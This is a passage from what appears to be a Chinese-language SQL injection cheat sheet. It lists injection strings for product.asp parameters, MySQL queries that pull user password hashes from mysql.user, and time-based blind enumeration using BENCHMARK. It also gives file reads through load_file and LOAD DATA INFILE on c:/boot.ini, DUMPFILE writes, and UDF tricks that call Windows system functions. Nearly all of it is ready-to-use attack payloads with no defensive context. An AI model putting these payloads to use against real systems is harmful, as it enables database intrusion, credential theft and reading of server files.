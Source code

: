 > product.asp?id=4 (SMO) 

1. `product.asp?id=5-1`
2. `product.asp?id=4 OR 1=1`

> product.asp?name=Book

1. `product.asp?name=Bo’%2b’ok`
2. `product.asp?name=Bo’ || ’ok (*OM*)`
3. `product.asp?name=Book’ OR ‘x’=’x`

#### Mysql 的其他提示

- 子查询只能在 MySQL 4.1 以上版本使用

- 查询用户信息：`SELECT User,Password FROM mysql.user;`

- `SELECT 1,1 UNION SELECT IF(SUBSTRING(Password,1,1)='2',BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = ‘root’;`

- `SELECT ... INTO DUMPFILE` 将数据库内容写入一个新文件 ，不能写入已存在的文件

- UDF 功能 

- - 创建一个函数 LockWorkStation 返回一个整数命名为 'user32';`
  - select LockWorkStation(); 
  - 创建一个函数 ExitProcess 返回一个整数命名为 'kernel32';
  - select ExitProcess()

- `SELECT USER();`

- `SELECT password,USER() FROM mysql.user;`

- 获取 admin 密码的第一个字节：`SELECT SUBSTRING(user_password,1,1) FROM mb_users WHERE user_group = 1;`

- 读文件：`query.php?user=1+union+select+load_file(0x63...),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`

- MySQL 从文件中读数据：`create table foo( line blob ); load data infile 'c:/boot.ini' into table foo; select * from foo;`

- `select benchmark( 500000, sha1( 'test' ) );`

- `query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`

- `select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' );`

  枚举猜测数据：`select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1('test')), 'false' );`

##### 一些有用的 Mysql 功能函数

- `MD5()` MD5 哈希
- `SHA1()` SHA1 哈希
- `PASSWORD()`
- `ENCODE()`
- `COMPRESS()` 压缩数据，在盲注中读取大型二进制文件时比较好用
- `ROW_COUNT()`
- `SCHEMA()`
- `VERSION()` 类似于 `@@version`